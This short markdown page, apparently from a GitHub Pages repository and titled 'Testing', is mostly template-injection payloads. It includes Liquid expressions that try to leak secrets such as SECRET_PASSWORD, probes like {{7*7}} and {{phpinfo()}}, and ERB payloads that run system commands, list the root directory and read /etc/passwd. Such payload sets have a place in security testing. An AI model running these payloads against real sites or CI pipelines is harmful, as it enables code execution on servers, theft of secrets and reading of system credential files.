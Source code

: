 ```yaml
---
title: Testing
---
```


## Site

{{ site.github.SECRET_PASSWORD }}

## Secret

{{ secrets.SECRET_PASSWORD }}

## General

```
{{ inputs.path }}
```

```
{{ site.github.SECRET_PASSWORD }}
```

```
{{ secrets.TEST }}
```

```
200,{{phpinfo()}}
```


```
200,{{7*7}}
```

```
<%= 7*7 %>
```

```
${7*7}
```

```
<%= system("whoami") %> #Execute code
<%= Dir.entries('/') %> #List folder
<%= File.open('/etc/passwd').read %> #Read file
<%= system('cat /etc/passwd') %>
<%= `ls /` %>
<%= IO.popen('ls /').readlines()  %>
<% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('whoami') %><%= @b.readline()%>
<% require 'open4' %><% @a,@b,@c,@d=Open4.popen4('whoami') %><%= @c.readline()%>
```

